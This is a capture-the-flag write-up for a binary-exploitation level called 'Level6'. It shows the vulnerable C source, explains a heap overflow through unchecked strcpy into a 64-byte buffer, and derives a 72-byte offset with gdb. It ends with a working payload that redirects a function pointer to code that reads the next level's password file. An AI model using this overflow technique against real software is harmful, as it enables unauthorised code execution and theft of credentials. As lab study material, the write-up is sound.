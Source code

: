 # Level6

## Code
```
#include <string.h>
#include <stdlib.h>

void n() {
    system("/bin/cat /home/user/level7/.pass");
}

void m() {
    puts("Nope");
}

int main(int ac, char **av) {
    int *buffer;
    void (**f)(void);

    buffer = (char *)malloc(64);
    f = (void (**)(void))malloc(4);

    *f = m;
    strcpy(buffer, av[1]);
    (*f)();
}
```

# Explanation

- Here we have a main() that calls malloc twice to allocate a 64 bytes buffer and a pointer to
    function, and then calls strcpy on the buffer with argv[1] as a source.

- Since it doesn't take into account the length, strcpy is very unsecure, and that's what we're 
    going to exploit. We can make argv[1] longer than the 64 bytes of the buffer and overflow it.

- The program also contains a m() function that just prints "Nope" and a n() function that is
    basically a win function, which is of course never called by main().

- We noticed that the pointer to function was given the address of the m() function so we immediately
    understood that the goal of the exercise was to make it point to n() instead.

- Using gdb, we put 2 breakpoints after both calls to malloc() to get the return addresses contained
    in eax (or we could also use ltrace to get these addresses): \
```
buffer's address :   0x804a008	    (134520840 in decimal)
pointer on func :    0x804a050      (134520912 in decimal)
```

- So, with a simple operation (134520912- 134520840 = 72), we can get the offset from the beginning
    of our buffer to where we need to write the address of the n() function.

# Exploit

- Here's our final payload:
```
$    ./level6 `python -c 'print("A"*72 + "\x54\x84\x04\x08")'`
```
